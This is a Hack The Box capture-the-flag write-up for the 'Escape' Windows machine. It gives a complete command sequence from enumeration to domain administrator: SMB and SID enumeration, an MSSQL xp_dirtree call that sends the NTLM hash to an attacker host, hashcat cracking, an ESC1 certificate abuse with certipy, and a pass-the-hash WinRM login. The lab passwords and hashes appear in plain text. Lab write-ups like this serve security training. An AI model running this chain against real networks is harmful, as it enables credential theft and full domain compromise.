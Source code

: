 ![Escape](https://labs.hackthebox.com/storage/avatars/80936664b3da83a92b28602e79e47d79.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Geiseric](https://app.hackthebox.com/users/184611)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.202 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49709,49720 -sCV -Pn 10.10.11.202 -oN ports
	```
	![[Pasted image 20250208134014.png]]

-  I found the domain `sequel.htb`, I added it to the file in the `hosts` file

- When I see an open port with a dns service, I list the mail servers and find another domain that I add to the `hosts` file.
	
	```python
	dig @10.10.11.202 sequel.htb mx
	```
	
	![image](https://github.com/user-attachments/assets/359d1f25-735f-4ede-a61e-7ad484dcc439)

- Ready the shared resources by smb with guest credentials.
	
	```python
	netexec smb 10.10.11.202 -u guest -p "" --shares
	```
	
  ![image](https://github.com/user-attachments/assets/f42442ed-a6f4-40da-a02a-59a4143cc6c4)

- Seeing that I have read permissions on the IPC$ folder, I can list the system users.
	
	```python
	impacket-lookupsid  sequel.htb/Guest@10.10.11.202
	```

	![image](https://github.com/user-attachments/assets/0469a9ac-f6f2-4be6-a6ce-d5851e4380b8)

- As I also have read permissions on the Public folder, I connect to it and find a pdf file 
	
	```python
	smbclient -U guest \\\\10.10.11.202\\Public
	```
	
	![image](https://github.com/user-attachments/assets/84307978-f036-4bc7-a530-43a2296f6cf6)

- Inside the document we find some credentials to connect to Microsoft SQL Server

	![image](https://github.com/user-attachments/assets/25eb3504-d29f-4192-b2d6-000b946b2b37)

	![image](https://github.com/user-attachments/assets/ea0168b1-3eed-41b2-881b-9a69b9f284b7)

- I log on and start looking for something interesting within the boards but find nothing remarkable. I also don't have the possibility to execute system commands
	
	```python
	impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
	```

- After checking the tables for information and not finding anything, I decide to stay on listen with reply and make a query against my ip to see the NTLMv2 hash.

```python
EXEC master..xp_dirtree "\\10.10.14.24\share\"
```

![image](https://github.com/user-attachments/assets/f99c1007-9fac-4034-81e5-faee86c842cd)

- I break the hash and get to see the clear text password of the sql_svc user. 
	
	```python
	hashcat -m 5600  hash /usr/share/wordlists/rockyou.txt --show
	```

- With this user I connect to the system via winrm and after enumerating the system I find a sql server log file. Inside I find the credentials of the user Ryan.Cooper in clear text.
	
	```python
	evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
	```
	
	![image](https://github.com/user-attachments/assets/9c0b6101-40c2-452f-95ed-80f41f694f66)
	
  ![image](https://github.com/user-attachments/assets/3a6f9043-8025-4abe-b962-f5762141f785)

- With this credentials I list the certificate templates. I find that with these credentials it is vulnerable to an ESC1 attack.
	
	```python
	certipy-ad find -u Ryan.Cooper -p NuclearMosquito3  -dc-ip 10.10.11.202 -stdout -enabled -vulnerable
	```
	
	![image](https://github.com/user-attachments/assets/a5e1444a-dc5e-450b-aa24-aea4623ffd20)

- Following the steps to exploit [ESC1](https://adminions.ca/books/adcs-abusing-active-directory-certificate-service/page/esc1), we can obtain a .pfx file with which we can connect to the system.  
	
	```python
	certipy-ad req -u Ryan.Cooper@sequel.htb -p "NuclearMosquito3" -ca sequel-DC-CA -template UserAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.202
	```
	
  ![image](https://github.com/user-attachments/assets/e4b12e23-a9c6-447e-9c3b-ed04cfaae640)

- Authenticate with the certificate to obtain the administrator's nt hash
	
	```python
	certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
	```
	
	![image](https://github.com/user-attachments/assets/ff1f3a32-382e-4f15-bed3-534c7fc314b5)

- With this hash we connect to the system and manage to read the second flag.
	
	```python
	evil-winrm -i 10.10.11.202 -u Administrator  -H a52f78e4c751e5f5e17e1e9f3e58f4ee
	```
	
	![image](https://github.com/user-attachments/assets/2a2cdf47-f664-4581-a985-6e88718bddb7)
